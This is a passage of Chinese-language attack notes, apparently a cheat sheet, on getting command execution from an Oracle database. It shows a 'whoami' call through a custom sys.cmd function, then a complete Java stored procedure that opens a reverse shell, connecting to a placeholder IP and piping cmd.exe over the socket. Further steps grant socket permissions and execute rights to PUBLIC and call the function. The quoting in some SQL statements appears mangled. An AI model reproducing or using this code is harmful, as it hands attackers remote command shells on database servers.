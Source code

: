 5. 执行命令
```sql
select sys.cmd('whoami') from dual;
```
#### 反弹shell

1. 创建java代码
```sql
create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell{public static void run() throws Exception {Socket s = new Socket("your own ip", 80);Process p = Runtime.getRuntime().exec("cmd.exe");new T(p.getInputStream(), s.getOutputStream()).start();new T(p.getErrorStream(), s.getOutputStream()).start();new T(s.getInputStream(), p.getOutputStream()).start();}static class T extends Thread {private InputStream i;private OutputStream u;public T(InputStream in, OutputStream out) {this.u = out;this.i = in;}public void run() {BufferedReader n = new BufferedReader(new InputStreamReader(i));BufferedWriter w = new BufferedWriter(new OutputStreamWriter(u));char f[] = new char[8192];int l;try {while ((l = n.read(f, 0, f.length)) > 0) {w.write(f, 0, l);w.flush();}} catch (IOException e) {}try {if (n != null)n.close();if (w != null)w.close();} catch (Exception e) {}}}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;
```

3. 创建函数
```sql
create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; 
```

4. 赋予函数执行权限
```sql
grant all on reversetcp to public
```

5. 执行命令
```sql
select sys.reversetcp from dual;
```

